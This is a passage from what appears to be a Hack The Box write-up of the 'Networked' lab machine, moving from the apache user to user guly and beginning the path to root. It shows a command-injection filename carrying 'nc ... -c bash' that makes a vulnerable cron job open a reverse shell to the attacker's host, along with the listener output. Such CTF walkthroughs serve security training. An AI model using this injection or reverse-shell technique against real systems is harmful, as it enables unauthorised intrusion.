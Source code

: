 ```bash
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
bash-4.2$ ls -l
total 12
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

`apache` does have the ability to read `check_attack.php` and `crontab.guly` in `/home/guly`. We don't have the ability to write to the file so can't place a shell directly in it.

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");` could be interesting, we control `$value` because it's the filename of a file we place in `/var/www/html/uploads/`.

```bash
bash-4.2$ which nc
/usr/bin/nc
bash-4.2$ touch '/var/www/html/uploads/; nc 10.10.14.9 444 -c bash'
bash-4.2$ ls /var/www/html/uploads
10_10_14_9.jpg  10_10_14_9.php.jpg  127_0_0_1.png  127_0_0_2.png  127_0_0_3.png  127_0_0_4.png  ; nc 10.10.14.9 444 -c bash  index.html
```

```bash
luc@kali:~/HTB/Networked$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:43288.
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
cat /home/guly/user.txt
526cfc23************************
```

We need to wait a bit of time because this cron is only executed every 3 minutes.

### Guly -> root

```bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```